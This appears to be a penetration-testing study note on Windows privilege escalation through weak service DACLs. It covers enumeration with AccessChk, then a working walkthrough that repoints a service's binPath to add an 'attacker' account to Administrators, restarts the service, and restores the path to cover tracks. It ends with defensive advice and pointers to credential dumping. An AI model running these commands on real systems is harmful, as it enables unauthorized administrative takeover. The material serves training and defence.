

# Weak Service Permissions

## Introduction

In the Windows operating system, the Service Control Manager (SCM) is an RPC server that manages service configurations. Every service in Windows has its own security descriptor that dictates which users and groups are allowed to interact with the service. This interaction includes operations like starting, stopping, pausing, or modifying the configuration of the service.

A "Weak Service Permission" vulnerability occurs when the Discretionary Access Control List (DACL) attached to a service grants overly permissive rights to a low-privileged user or group (such as `BUILTIN\Users` or `Everyone`). If an attacker can modify a service's configuration, they can change the executable path (the `binPath`) that the service launches. When the service starts, it will execute the attacker's payload under the context of the service account, which is typically `NT AUTHORITY\SYSTEM`.

## Understanding Service Access Rights

When an access check is performed on a service, Windows evaluates the requested access mask against the DACL. Several specific access rights are relevant to privilege escalation:

- **SERVICE_ALL_ACCESS (0xF01FF):** Grants complete control over the service. If a low-privileged user has this right, exploitation is guaranteed.
- **SERVICE_CHANGE_CONFIG (0x0002):** The most critical permission. It allows a user to change the service configuration, including its binary path (`binPath`), the account it runs as, and its start type.
- **WRITE_DAC (0x40000):** Allows the user to modify the DACL of the service, meaning they can grant themselves `SERVICE_CHANGE_CONFIG`.
- **WRITE_OWNER (0x80000):** Allows the user to take ownership of the service, subsequently allowing them to modify the DACL and grant themselves configuration rights.
- **SERVICE_START (0x0010) / SERVICE_STOP (0x0020):** While not sufficient for privilege escalation on their own, these permissions are crucial for the exploitation phase, allowing the attacker to seamlessly restart the service and trigger the payload without requiring a system reboot.



## Enumeration and Identification

Manually reading Service DACLs using built-in Windows commands is extremely difficult because Windows outputs the security descriptors in raw Security Descriptor Definition Language (SDDL) format. 

For example, querying a service via `sc sdshow` yields an SDDL string like this:
```cmd
C:\> sc sdshow wuauserv
D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)
```
Unless you can fluently read SDDL strings, this is unhelpful. Therefore, penetration testers rely heavily on Sysinternals `AccessChk` or PowerShell modules like `PowerUp`.

### Using AccessChk
`AccessChk` parses SDDL strings and outputs human-readable permissions. 

To search for services that the current user (`%USERNAME%`) or the `Users` group has write access to:

```cmd
C:\> accesschk.exe /accepteula -uwcqv "Users" *
```
*Explanation of flags:*
- `-u`: Suppress errors.
- `-w`: Show only objects that have write access.
- `-c`: Name is a Windows Service.
- `-q`: Quiet mode (omit banner).
- `-v`: Verbose output (shows exact permissions).
- `*`: Check all services.

**Example Output:**
```text
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
```
In this output, `RW daclsvc` indicates that we have Read/Write access to a service named `daclsvc`. Crucially, the detailed list shows `SERVICE_CHANGE_CONFIG`. This service is highly vulnerable. Furthermore, we also have `SERVICE_START` and `SERVICE_STOP`, making exploitation trivial.

## Exploitation Process

The exploitation process involves pointing the service's `binPath` to a malicious executable or a command, and then restarting the service.

### Step 1: Query the Current Configuration
Before making changes, it is best practice to record the original configuration so the service can be restored later, preventing permanent damage to the host.

```cmd
C:\> sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\DACL Service\daclservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Checking Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
*Note:* The `SERVICE_START_NAME` is `LocalSystem`, meaning our payload will execute as SYSTEM.

### Step 2: Modify the Service Configuration
We use the `sc config` command to alter the `binPath`. Instead of dropping an `.exe` file to disk, we can directly invoke `cmd.exe` to perform an action, such as adding our user to the local Administrators group.

```cmd
C:\> sc config daclsvc binpath= "cmd.exe /c net localgroup administrators attacker /add"
[SC] ChangeServiceConfig SUCCESS
```
*Important Syntax Note:* The space after `binpath=` and before the quotation mark is **mandatory**. `binpath="cmd..."` will fail with an error.

### Step 3: Trigger the Payload
With the configuration modified, we must execute the service.

```cmd
C:\> sc stop daclsvc
[SC] ControlService FAILED 1062:
The service has not been started.

C:\> sc start daclsvc
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
```

The `FAILED 1053` error is entirely expected and a sign of success! When the SCM starts the service, it expects the executable to communicate back via the Service Control Handler API within 30 seconds. Because our `binpath` points to `cmd.exe`, which does not implement this API, the SCM assumes the service hung and kills it. However, the command execution (`net localgroup ...`) happens instantaneously *before* the SCM kills the process. 

### Step 4: Verification and Cleanup
Verify that the account was added to the Administrators group:

```cmd
C:\> net localgroup administrators
Members
-------------------------------------------------------------------------------
Administrator
attacker
```
Success.

Finally, restore the original service path to cover your tracks and ensure the system functions correctly:

```cmd
C:\> sc config daclsvc binpath= "C:\Program Files\DACL Service\daclservice.exe"
[SC] ChangeServiceConfig SUCCESS
```

## Handling Missing Restart Privileges

If the `AccessChk` output showed `SERVICE_CHANGE_CONFIG` but *did not* show `SERVICE_START` or `SERVICE_STOP`, we cannot manually trigger the payload using `sc start`.

In this scenario, we have two options:
1.  **Check the Start Type:** If `START_TYPE` is set to `2 AUTO_START`, we can change the configuration and then initiate a system reboot using `shutdown /r /t 0`. Upon reboot, the service will start automatically and fire the payload.
2.  **Wait:** If we do not have privileges to reboot the machine, we must change the configuration and wait patiently for an administrator to reboot the machine or restart the service during normal maintenance operations.

## Defensive Perspectives

- **Auditing DACLs:** Defenders should regularly audit the DACLs on all services using tools like `AccessChk` or custom PowerShell scripts to ensure standard users do not have `SERVICE_CHANGE_CONFIG`, `SERVICE_ALL_ACCESS`, or `WRITE_DAC`.
- **Principle of Least Privilege:** Built-in Windows services are secure by default. Weak permissions are almost exclusively the result of poorly packaged third-party software installers that forcefully apply insecure permissions to ensure the software works without generating UAC prompts.
- **Monitoring:** EDR solutions should monitor the `sc.exe` and `services.exe` processes for suspicious command-line activity, specifically the `config` and `binpath=` arguments.

## Chaining Opportunities
- **Enumeration:** Requires basic understanding of users and groups as detailed in [[02 - Enumerating Windows System Info]].
- **Lateral Movement:** Once the user is added to the Administrators group, they can extract LSASS memory or SAM hashes to move laterally across the network, connecting to [[Lateral Movement Overview]].

## Related Notes
- [[01 - Windows PrivEsc Methodology Overview]]
- [[03 - Unquoted Service Paths]]
- [[05 - Modifiable Service Binaries]]
- [[Windows Access Control Models]]
